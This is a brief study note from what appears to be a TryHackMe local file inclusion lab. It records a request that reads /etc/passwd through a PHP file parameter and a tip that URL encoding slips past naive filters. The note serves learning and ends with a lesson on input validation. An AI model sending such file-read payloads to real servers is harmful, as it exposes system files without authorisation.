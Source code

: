 ﻿# Lab Title: LFI Lab #1 - Read /etc/passwd
Date: 2025-09-08

## Target
- TryHackMe LFI room (Lab #1)

## Commands / Steps
Request URI: 
http://10.10.92.17/lab1.php?file=%2Fetc/passwd

Encoded URI (decoded using CyberChef):
lab1.php?file=%2Fetc%2Fpasswd

## Results
- Successfully read `/etc/passwd` file contents
- Learned that LFI can expose sensitive system files

## Screenshots
![CyberChef decoding](../screenshots/2025-09-08-lfi-lab1-cyberchef.png)
![Lab #1 output](../screenshots/2025-09-08-lfi-lab1-lab.png)


## What I Learned
- LFI allows attackers to read sensitive files
- URL encoding (%2F for /) can bypass naive input filters
- Always validate and sanitize user input to prevent LFI
